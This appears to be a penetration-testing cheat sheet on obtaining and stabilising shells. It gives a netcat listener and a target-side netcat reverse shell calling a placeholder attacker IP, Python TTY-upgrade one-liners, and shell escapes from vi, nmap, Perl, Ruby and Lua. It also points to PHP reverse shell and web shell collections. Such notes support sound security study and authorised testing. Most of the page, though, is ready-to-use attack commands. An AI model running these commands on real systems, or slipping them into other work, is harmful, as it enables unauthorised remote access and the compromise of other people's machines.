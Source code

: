 # Shell

**Reverse shells** are when the target is forced to execute code that connects back to your computer.

**Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target.

## Reverse Shell example:

On the attacking machine:
```
sudo nc -lvnp 443
```

On the target:
```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

## Spawning a Shell


### Spawning a TTY Shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL+Z; stty raw -echo; fg
```

### rlwrap
```
rlwrap nc -lvnp <port>

CTRL+Z; stty raw -echo; fg
```

## Metasloit session may require

`SHELL=/bin/bash script -q /dev/null`




## Shell Spawning
https://netsec.ws/?p=337
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

(From within IRB)

exec "/bin/sh"

(From within vi)

:!bash

(From within vi)

:set shell=/bin/bash:shell

(From within nmap)

!sh
```

## Reverse Shell
[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)


## Web Shell
[Arrexel phpbash](https://github.com/Arrexel/phpbash)

```
/usr/share/webshells
```

[Daniel Miessler webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

